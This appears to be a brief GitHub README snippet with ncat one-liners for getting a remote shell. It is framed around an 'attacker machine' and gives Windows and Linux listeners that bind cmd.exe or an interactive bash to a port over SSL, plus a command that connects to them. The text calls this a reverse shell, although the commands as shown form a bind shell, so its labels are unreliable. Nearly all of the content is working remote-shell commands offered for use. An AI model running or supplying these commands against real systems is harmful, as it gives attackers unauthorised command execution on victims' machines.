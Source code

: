 ## Setup a Netcat listener on the attacker machine

Win: `ncat -lvp port -e cmd.exe --allow ip --ssl`  <br>
Linux: `ncat -lvp port -e '/bin/bash -i' --allow ip --ssl`

where `port` is any port number, and `ip` is the other machine IP.

## To obtain a reverse shell on the other machine

`ncat -v ip2 port --ssl`

where `port` is any port number, and `ip2` is the other machine IP.

![nc](https://user-images.githubusercontent.com/12968456/28184683-a13c6d5e-6814-11e7-87ea-28c7069a20b7.png)

